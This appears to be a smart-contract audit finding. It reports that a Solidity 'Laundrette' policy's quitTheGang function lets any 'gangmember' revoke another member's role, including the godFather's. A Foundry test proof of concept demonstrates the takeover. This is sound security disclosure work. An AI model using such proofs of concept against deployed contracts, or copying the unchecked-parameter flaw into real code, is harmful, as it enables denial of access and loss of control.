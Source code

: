     function quitTheGang(address account) external onlyRole("gangmember") {
        kernel.revokeRole(Role.wrap("gangmember"), account);
    }

However, when calling this function, any address can be provided for the account parameter. This means any address with the "gangmember" role can force out other addresses with the "gangmember" role. The biggest problem of this is if the "godFather" address is forced out of the "gangmember" role. In this case, the "godFather" will no longer be able to call the takeGuns() function in the policy "Laundrette".
 
## Vulnerability Details
Here is a quick proof of concept : 

    function test_ForceQuit() public {
        //Note : assumes that deployer correctly gives godFather the gangmember role
        vm.prank(kernel.admin());
        kernel.grantRole(Role.wrap("gangmember"), godFather);


        //1) Have godFather add two new addresses to the gang.
        address Bob = makeAddr("Hi I'm Bob");
        address Alice = makeAddr("Hi I'm Alice");

        vm.prank(godFather);
        laundrette.addToTheGang(Bob);
        vm.prank(godFather);
        laundrette.addToTheGang(Alice);

        assertEq(kernel.hasRole(Bob, Role.wrap("gangmember")), true);
        assertEq(kernel.hasRole(Alice, Role.wrap("gangmember")), true);

        //2) Bob can force Alice to quit the gang
        vm.prank(Bob);
        laundrette.quitTheGang(Alice);

        assertEq(kernel.hasRole(Bob, Role.wrap("gangmember")), true);
        assertNotEq(kernel.hasRole(Alice, Role.wrap("gangmember")), true);

        //3) Bob can also force the godFather to quit the gang. 
        vm.prank(Bob);
        laundrette.quitTheGang(godFather);

        assertEq(kernel.hasRole(Bob, Role.wrap("gangmember")), true);
        assertNotEq(kernel.hasRole(Alice, Role.wrap("gangmember")), true);

        //Now godFather can no longer call key functions. 
        vm.expectRevert();
        vm.prank(godFather);
        laundrette.addToTheGang(Alice);

        vm.expectRevert(abi.encodeWithSelector(Policy_OnlyRole.selector, Role.wrap("gangmember")));
        vm.prank(godFather);
        laundrette.takeGuns(godFather, 1);
    }

## Impact
Any address with the role "gangmember" in the kernel can force out any other address with the role "gangmember". This especially causes problems when "godFather" is removed as a "gangmember".
